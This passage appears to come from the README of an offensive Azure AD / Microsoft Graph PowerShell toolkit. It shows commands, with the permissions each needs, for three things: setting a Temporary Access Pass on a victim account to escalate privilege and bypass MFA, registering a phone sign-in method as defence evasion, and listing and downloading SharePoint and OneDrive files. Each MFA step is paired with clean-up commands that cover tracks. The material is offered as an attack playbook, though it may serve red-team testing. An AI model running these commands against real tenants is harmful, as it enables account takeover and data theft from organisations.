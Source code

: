 #### Configure Temporary Access Pass (PE to admin user, bypass MFA)

###### Permission for configuring authen method: Policy.ReadWrite.AuthenticationMethod

###### Permission for configuring temp access pass authen:  UserAuthenticationMethod.ReadWrite.All

Configure Temporary Access Pass for a user

```powershell
Set-AAAAutenMethod -TempPass
Set-AAAUserAuthTempPass -UserId "hagrid@XXX.onmicrosoft.com"
# Clean up
Remove-AAAUserAuthTempPass -UserId "hagrid@XXX.onmicrosoft.com" -TempPassId "XXXX"
Set-AAAAutenPolicy -TempPass -Disable
```



## Defence Evasion

#### Configure phone sign-in MFA (bypass MFA)

###### Permission for configuring authen method: Policy.ReadWrite.AuthenticationMethod

###### Permission for configuring phone sign-in authen:  UserAuthenticationMethod.ReadWrite.All

Configure phone sign-in MFA method for a user

```powershell
Set-AAAAutenMethod -sms
Set-AAAUserAuthPhone -UserId "hagrid@XXX.onmicrosoft.com" -phoneNumber "+852XXXXXXX"
# Clean up
Remove-AAAUserAuthPhone -UserId "hagrid@XXX.onmicrosoft.com" -phoneNumber "+852XXXXXXX"
Set-AAAAutenPolicy -sms -Disable
```



## Data Collection

#### SharePoint

###### Permission: Sites.Read.All, Sites.ReadWrite.All, Sites.Manage.All, Sites.FullControl.All

List details and download item from a SharePoint site

```powershell
Get-AAASite
Get-AAAOneDriveFolder -SitetId "XXXX"
Get-AAAOneDriveFolder -SitetId "XXXX" -FolderId "XXXX" -showDetails
Get-AAAOneDriveFolder -SitetId "XXXX" -FolderId "XXXX" -recurse | Export-CSV -Encoding UFT8 Result.csv
Get-AAAOneDriveFolder -SitetId "XXXX" -FolderId "XXXX" -Parent
Get-AAAOneDriveFolder -SitetId "XXXX" -FileId "XXXX" -Download
```
